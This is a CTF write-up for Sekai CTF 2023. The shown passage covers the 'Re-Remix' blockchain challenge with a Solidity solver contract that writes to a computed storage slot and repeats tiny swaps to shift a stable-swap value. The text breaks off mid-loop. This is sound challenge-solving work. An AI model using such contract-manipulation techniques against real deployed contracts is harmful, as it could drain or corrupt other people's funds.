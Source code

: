 title: "Sekai CTF 2023 Writeup"
tags:
  - CTF
  - Writeup
#! meta end

Recently, I played [Project SEKAI CTF 2023](https://ctftime.org/event/1923) individually. This article contains my writeup of this CTF.

All cpp codes in this article includes [the huge header file](https://gist.github.com/mcfx/69de6c42ccd2f703fbe6305211e9564f).

Official writeups could be found at [https://github.com/project-sekai-ctf/sekaictf-2023](https://github.com/project-sekai-ctf/sekaictf-2023).

#! toc Contents

# Misc

## [Blockchain] Re-Remix

This is an unintended solution.

First, in `MusicRemixer`, we can notice the following function:

```solidity
function getSongLevel() public view returns (uint256) {
    return convert(ud(sampleEditor.region_tempo() * 1e18).log2()) * _getComplexity(equalizer.getGlobalInfo());  // log2(tempo) * complexity
}
```

In `SampleEditor`, the maximum value of `region_tempo()` is 233, thus we need `_getComplexity(equalizer.getGlobalInfo())` $\ge 5$. `_getComplexity` returns the number of different digits.

In order to make `region_tempo()` 233, we need to find the storage location of `tracks["Rhythmic"][2].settings.flexOn`. I did this by debugging in Remix IDE.

`Equalizer.getGlobalInfo()` returns some internal value of a stable swap. I didn't figure out how to change it by a large value, but I found that when we add liquidity (`increaseVolume`) or swap (`equalize`) by a little value, such as 1, for many times, it could change.

Then I get the following solution:

```solidity
pragma solidity 0.8.19;

import "./MusicRemixer.sol";

contract solver {
    Equalizer eq;
    MusicRemixer m;
    constructor() {
    }
    function start(MusicRemixer m1) public payable {
        require(msg.value >= 1e9);
        m = m1;
        eq = m.equalizer();
        m.sampleEditor().updateSettings(0x5ebfdad7f664a9716d511eafb9e88c2801a4ff53a3c9c8135d4439fb346b50bf, 0x100);
        m.sampleEditor().setTempo(233);
        m.sampleEditor().adjust();
    }
    function test() public {
        Equalizer eq1 = eq;
        for (uint i = 0; i < 300; i++) {
            eq1.equalize{value: 1}(0, 1, 1);
        }
```